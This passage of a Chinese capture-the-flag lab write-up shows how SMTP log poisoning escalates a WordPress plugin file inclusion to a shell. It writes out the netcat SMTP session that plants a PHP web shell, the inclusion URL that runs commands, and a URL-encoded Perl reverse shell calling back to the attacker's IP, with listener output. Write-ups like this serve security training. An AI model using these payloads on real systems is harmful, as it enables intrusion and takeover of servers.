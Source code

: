 ### 3.2. smtp上传后门
我们获取到了一个LFI
但是现在需要利用这个弹一个shell

这里我想到了我们端口扫描时 开放的25端口 SMTP邮件服务
我们利用SMTP邮件服务 发送一个后门邮件 然后对其进行文件包含
> 这里需要选择一个接受邮件的用户，用户可以在/etc/passwd里面获取

```bash
apt install postfix


┌──(root㉿kali)-[~/Desktop/hmv/Diophanate]
└─# nc 192.168.56.14 25
220 debian ESMTP Postfix (Debian/GNU)
helo xxx
250 debian
mail from:<kali>
250 2.1.0 Ok
rcpt to: sabine
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
<?php system($_GET['cmd']);?>
.
250 2.0.0 Ok: queued as B952B802CC
quit
221 2.0.0 Bye


```
> [!warning]
> 邮件发送过多会导致log文件损坏，需要重置靶机才行
> rcpt to: sabine 后面的接受者是固定的 不能任意，必须是目标靶机上的用户
> mail from:`<kali>` 这里后面的发送者可以任意，但一定要用`< >`括起来

我们使用 `Postfix` 发送邮件：邮件通常存储在 `/var/spool/mail/<用户名>` 或 `/var/mail/<用户名>` 中。


然后访问
http://192.168.56.14/blog/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/var/mail/sabine&cmd=id
即可RCE

弹shell
```bash
curl http://192.168.56.14/blog/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/var/mail/sabine&cmd=perl%20-e%20%27use%20Socket%3B%24i%3D%22192.168.56.6%22%3B%24p%3D1234%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2Fbin%2Fbash%20-i%22%29%3B%7D%3B%27


┌──(root㉿kali)-[~/Desktop/hmv/Diophanate]
└─# pwncat-cs -lp 1234

[08:40:32] Welcome to pwncat 🐈!                                                        __main__.py:164
[08:40:59] received connection from 192.168.56.14:42498                                      bind.py:84
[08:41:00] 192.168.56.14:42498: registered new host w/ db                                manager.py:957
(local) pwncat$
(remote) www-data@diophante:/var/www/html/blog/wp-content/plugins/site-editor/editor/extensions/pagebui
```